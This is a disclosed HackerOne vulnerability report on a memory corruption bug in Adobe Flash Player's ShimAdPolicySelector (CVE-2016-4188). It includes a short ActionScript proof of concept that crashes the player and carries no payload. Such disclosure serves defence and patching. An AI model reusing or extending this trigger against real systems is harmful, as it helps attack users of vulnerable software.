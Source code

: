 # Adobe Flash Player ShimAdPolicySelector(adPolicySelectorType=0) class Memory Corruption

## Report Details
- **Report ID**: 151040
- **URL**: https://hackerone.com/reports/151040
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-13T02:47:16.953Z
- **Disclosed**: 2019-11-12T09:42:05.083Z

## Reporter
- **Username**: hhj4ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I. Summary
Adobe Flash Player is prone to a vulnerability which leads to memory corruption because of improper validation of ShimAdPolicySelector.selectAdBreaksToPlay().
------------------------------------------------------------------
II. Description
Normally, selectAdBreaksToPlay() should validate its parameter returns error in AS3 level if anything goes wrong.
However, if ShimAdPolicySelector is constructed with adPolicySelectorType=0, then invoking selectAdBreaksToPlay() with invalid AdPolicyInfo instance, some inner fields of ShimAdPolicySelector will be absent, which will cause a memory crash.

POC Source Code:

package
{	
	import com.adobe.tvsdk.mediacore.MediaPlayerItem;
	import com.adobe.tvsdk.mediacore.timeline.advertising.policy.AdPolicyInfo;
	import com.adobe.tvsdk.mediacore.timeline.advertising.policy.ShimAdPolicySelector;	
	import flash.display.Sprite;

	public class poc extends Sprite
	{
		public function poc()
		{
			var mp:MediaPlayerItem;
			var ap:AdPolicyInfo;
			var obj:ShimAdPolicySelector = new ShimAdPolicySelector(0,mp);
			obj.selectAdBreaksToPlay(ap);
		}		
	}
}
------------------------------------------------------------------
III. Impact
Memory Corruption
------------------------------------------------------------------
IV. Affected
Adobe Flash Player 21.0.0.242.
------------------------------------------------------------------
V. Credit
Wen Guanxing from Pangu LAB is credited for this vulnerability.

It has been assigned as CVE-2016-4188 by Adobe:
https://helpx.adobe.com/security/products/flash-player/apsb16-25.html

## Attachments
- poc.swf
